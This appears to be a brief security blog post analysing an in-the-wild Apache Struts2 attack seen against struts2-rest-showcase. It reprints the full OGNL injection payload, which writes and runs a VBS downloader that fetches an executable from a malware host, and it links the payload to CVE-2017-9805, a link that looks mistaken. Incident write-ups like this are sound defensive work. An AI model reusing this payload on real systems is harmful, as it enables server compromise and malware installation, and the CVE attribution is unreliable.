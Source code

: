 ```yaml
---
title: "Attack Targeting struts2-rest-showcase"
#author: "Author Name"
description: "Description of an attack targeting a web endpoint and dropping a downloader using VisualBasic script"
#cover: "/img/cover.jpg"
#tags: ["tagA", "tagB"]
date: 2018-06-24T14:14:14-04:00
draft: false
---
```

I see some interesting exploitation over port 80 to struts2-rest-showcase/orders.xhtml:

```
Content-Type: %{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='cmd /c del C:/Windows/temp/searsvc.vbs&echo Set Post = CreateObject("Msxml2.XMLHTTP") >>C:/Windows/temp/searsvc.vbs&echo Set Shell = CreateObject("Wscript.Shell") >>C:/Windows/temp/searsvc.vbs&echo Post.Open "GET","hxxp://a46.bulehero.in/downloader.exe",0 >>C:/Windows/temp/searsvc.vbs&echo Post.Send() >>C:/Windows/temp/searsvc.vbs&echo Set aGet = CreateObject("ADODB.Stream") >>C:/Windows/temp/searsvc.vbs&echo aGet.Mode = 3 >>C:/Windows/temp/searsvc.vbs&echo aGet.Type = 1 >>C:/Windows/temp/searsvc.vbs&echo aGet.Open() >>C:/Windows/temp/searsvc.vbs&echo aGet.Write(Post.responseBody) >>C:/Windows/temp/searsvc.vbs&echo aGet.SaveToFile "C:/Windows/temp/esentur.exe",2 >>C:/Windows/temp/searsvc.vbs&echo wscript.sleep 10000>>C:/Windows/temp/searsvc.vbs&echo Shell.Run ("C:/Windows/temp/esentur.exe")>>C:/Windows/temp/searsvc.vbs&C:/Windows/temp/searsvc.vbs').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```

It looks like this is abusing some mishandling of a content type, to write a vbs script that downloads hxxp://a46.bulehero.in/downloader.exe into C:/Windows/temp/esentur.exe.  Unfortunately, that site is not providing the download file...

[Virus total](https://www.virustotal.com/#/file/a65c5009bf998ec560b9f93928a7a365ffdaceeaca3cc547bec971a1f76e7b11/detection) has previously characterized a downloader.exe file from the URL.

This seems like it exploits [CVE-2017-9805](https://nvd.nist.gov/vuln/detail/CVE-2017-9805), with potential [POC here](https://github.com/iBearcat/S2-052).
